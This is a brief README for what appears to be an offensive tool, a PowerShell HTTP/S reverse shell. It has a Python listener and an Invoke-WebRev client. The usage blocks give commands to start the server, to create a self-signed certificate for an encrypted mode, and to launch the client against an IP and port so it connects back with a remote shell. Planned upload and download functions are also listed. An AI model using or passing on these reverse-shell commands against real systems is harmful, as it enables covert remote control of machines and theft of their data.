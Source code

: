 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Reverse Shell without encryption:
    Invoke-WebRev -ip IP -port PORT
```
```
Reverse Shell with encryption:
    Invoke-WebRev -ssl -ip IP -port PORT
```

# Future features
    - Proxy Aware
    - Upload function
    - Download function
